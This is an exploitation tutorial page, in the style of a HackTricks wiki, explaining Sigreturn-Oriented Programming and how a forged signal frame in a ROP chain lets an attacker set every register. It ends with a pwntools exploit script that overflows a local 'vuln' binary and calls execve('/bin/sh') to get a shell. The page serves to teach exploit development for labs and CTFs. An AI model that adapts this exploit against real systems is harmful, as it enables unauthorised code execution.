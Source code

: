 # SROP - Sigreturn-Oriented Programming

{{#include ../../../banners/hacktricks-training.md}}

## Basic Information

**`Sigreturn`** is a special **syscall** that's primarily used to clean up after a signal handler has completed its execution. Signals are interruptions sent to a program by the operating system, often to indicate that some exceptional situation has occurred. When a program receives a signal, it temporarily pauses its current work to handle the signal with a **signal handler**, a special function designed to deal with signals.

After the signal handler finishes, the program needs to **resume its previous state** as if nothing happened. This is where **`sigreturn`** comes into play. It helps the program to **return from the signal handler** and restores the program's state by cleaning up the stack frame (the section of memory that stores function calls and local variables) that was used by the signal handler.

The interesting part is how **`sigreturn`** restores the program's state: it does so by storing **all the CPU's register values on the stack.** When the signal is no longer blocked, **`sigreturn` pops these values off the stack**, effectively resetting the CPU's registers to their state before the signal was handled. This includes the stack pointer register (RSP), which points to the current top of the stack.

> [!CAUTION]
> Calling the syscall **`sigreturn`** from a ROP chain and **adding the registry values** we would like it to load in the **stack** it's possible to **control** all the register values and therefore **call** for example the syscall `execve` with `/bin/sh`.

Note how this would be a **type of Ret2syscall** that makes much easier to control params to call other Ret2syscalls:

{{#ref}}
rop-syscall-execv.md
{{#endref}}

For a better explanation check also:

{% embed url="https://youtu.be/ADULSwnQs-s?feature=shared" %}

## Example

You can [**find an example here**](https://ir0nstone.gitbook.io/notes/types/stack/syscalls/sigreturn-oriented-programming-srop/using-srop), although this is the final exploit from there:

```python
from pwn import *

elf = context.binary = ELF('./vuln', checksec=False)
p = process()

BINSH = elf.address + 0x1250
POP_RAX = 0x41018
SYSCALL_RET = 0x41015

frame = SigreturnFrame()
frame.rax = 0x3b            # syscall number for execve
frame.rdi = BINSH           # pointer to /bin/sh
frame.rsi = 0x0             # NULL
frame.rdx = 0x0             # NULL
frame.rip = SYSCALL_RET

payload = b'A' * 8
payload += p64(POP_RAX)
payload += p64(0xf)
payload += p64(SYSCALL_RET)
payload += bytes(frame)

p.sendline(payload)
p.interactive()
```

## References

- [https://youtu.be/ADULSwnQs-s?feature=shared](https://youtu.be/ADULSwnQs-s?feature=shared)
- [https://ir0nstone.gitbook.io/notes/types/stack/syscalls/sigreturn-oriented-programming-srop](https://ir0nstone.gitbook.io/notes/types/stack/syscalls/sigreturn-oriented-programming-srop)

{{#include ../../../banners/hacktricks-training.md}}



